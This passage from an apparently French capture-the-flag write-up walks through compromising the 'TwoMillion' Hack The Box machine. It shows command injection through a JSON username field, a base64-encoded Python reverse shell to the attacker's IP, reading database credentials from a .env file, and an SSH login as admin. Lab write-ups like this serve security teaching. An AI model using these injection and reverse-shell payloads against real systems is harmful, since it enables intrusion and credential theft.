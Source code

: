 ```bash
-H "Content-Type: application/json" \
-H "Connection: keep-alive" \
-H "Referer: http://2million.htb/home/access" \
-H "Cookie: PHPSESSID=jg018kgbajmc0pjtrdo4dv603a" \
-H "Upgrade-Insecure-Requests: 1" \
--data '{"username":"admin;whoami;"}'                  
www-data
```

### Reverse Shell : www-data
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Host: 2million.htb" \
-H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0" \
-H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
-H "Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3" \
-H "Accept-Encoding: gzip, deflate, br" \
-H "Content-Type: application/json" \
-H "Connection: keep-alive" \
-H "Referer: http://2million.htb/home/access" \
-H "Cookie: PHPSESSID=jg018kgbajmc0pjtrdo4dv603a" \
-H "Upgrade-Insecure-Requests: 1" \
--data '{"username":"admin;echo ZXhwb3J0IFJIT1NUPSIxMC4xMC4xNi41NSI7ZXhwb3J0IFJQT1JUPTkwMDE7cHl0aG9uMyAtYyAnaW1wb3J0IHN5cyxzb2NrZXQsb3MscHR5O3M9c29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgob3MuZ2V0ZW52KCJSSE9TVCIpLGludChvcy5nZXRlbnYoIlJQT1JUIikpKSk7W29zLmR1cDIocy5maWxlbm8oKSxmZCkgZm9yIGZkIGluICgwLDEsMildO3B0eS5zcGF3bigic2giKSc= | base64 -d | sh;"}'
```

## www-data -> admin

### .env file : admin credentials
En observant les fichiers du site web depuis **www-data** on observe le fichier **index.php **qui semble recupérer des credentials depuis le fichier `.env`
```bash
$envFile = file('.env');
$envVariables = [];
foreach ($envFile as $line) {
    $line = trim($line);
    if (!empty($line) && strpos($line, '=') !== false) {
        list($key, $value) = explode('=', $line, 2);
        $key = trim($key);
        $value = trim($value);
        $envVariables[$key] = $value;
    }
}

$dbHost = $envVariables['DB_HOST'];
$dbName = $envVariables['DB_DATABASE'];
$dbUser = $envVariables['DB_USERNAME'];
$dbPass = $envVariables['DB_PASSWORD'];
```
En affichant `.env`, on trouve les credentials admin:
```bash
$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
On se connecte en ssh a l'utilisateur `admin`:
```bash
$ ssh admin@2million.htb
admin@2million:~$ ls
```